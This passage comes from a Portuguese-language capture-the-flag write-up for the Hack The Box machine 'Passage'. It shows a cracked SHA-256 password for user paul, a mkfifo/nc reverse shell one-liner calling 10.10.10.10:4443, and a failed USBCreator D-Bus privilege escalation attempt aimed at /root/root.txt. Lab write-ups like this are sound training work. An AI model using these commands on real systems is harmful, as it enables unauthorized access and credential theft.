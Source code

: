 ```bash
Enter the URL> http://passage.htb
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
paul@passage.htb:e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
```

```bash
$ john -format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hashes
Created directory: /home/zurc/.john
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
atlanta1         (?)
1g 0:00:00:02 DONE (2021-02-25 16:02) 0.4132g/s 5926Kp/s 5926Kc/s 17794KC/s (454579)..*7¡Vamos!
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

Além da credencial, obtive um shell reverso interativo com a conta **www-data** a partir do envio do payload a seguir: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`.

## User flag

Após executar o script `linpeas.sh`, encontrei alguns itens interessantes:

- Máquina é vulnerável a USBCreator

```plaintext
[+] USBCreator
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation
Vulnerable!!
```

  - Embora seja vulnerável, quando tentei explorá-la conforme explicado [neste link](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/), não funcionou corretamente dado a privilégios insuficientes deste usuário.

```bash
www-data@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /tmp/somefilename true
Error: GDBus.Error:org.freedesktop.DBus.Python.dbus.exceptions.DBusException: com.ubuntu.USBCreator.Error.NotAuthorized
(According to introspection data, you need to pass 'ssb')
```

- Observado 2 usuários na máquina, que inicialmente foram listados quando encontrei os endereços de e-mail e, para o usuário Paul, já temos uma possível senha.

```plaintext
[+] Users with console
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
root:x:0:0:root:/root:/bin/bash
```
